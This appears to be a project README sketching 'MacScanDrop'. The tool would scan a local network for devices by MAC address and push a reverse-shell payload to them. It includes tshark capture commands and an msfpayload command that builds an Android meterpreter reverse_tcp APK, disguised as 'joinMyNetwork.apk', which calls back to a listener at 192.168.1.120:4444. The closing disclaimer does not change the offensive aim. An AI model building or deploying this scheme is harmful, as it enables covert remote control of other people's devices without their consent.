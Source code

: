 MacScanDrop

Idea
The idea here is to scan for devices in range of my own network. Sending out a request to all devices in range to join. In return I want to provide them with a reverse_tcp payload.

The one unique identifier would be MAC (media access control) address. Which we will SCAN for, and DROP a payload. Lets see how this pans out.

Problem
The currently known problems associated with this idea are;
    -Having a script running for a period of time
        This could be in a while loop for say 300 seconds
    -To prevent the req beign sent out again to the same device, save the MAC it into a file or db
        .txt file or a sql db, looking for the most efficient
    -heterogeneity issues
        If it is an android device wanting to connect, would have to wrap the payload into a .apk
    -Which CLI tools to use to scan the LAN
        wireshark, tshark, arp-scan, airmon-ng & airodump-ng


Current solution, more like ideas
while true ; do ./MacScanDrop.<extension> ; sleep 300 ; done

tshark -D (Print a list of the interfaces on which TShark can capture)
    wlan0 is on interface 2
tshark -i 2 -a [autostop] duration:300 -w [write] tshark-scan-collection.pcap

msfpayload android/meterpreter/reverse_tcp LHOST=192.168.1.120 LPORT=4444 R > joinMyNetwork.apk


This project is for learning and knowledge share to which I do no advocate or take upon any responsibility for illegal actions and/or damage performed or caused by individuals who use this information for purposes which it is not intended to be used.
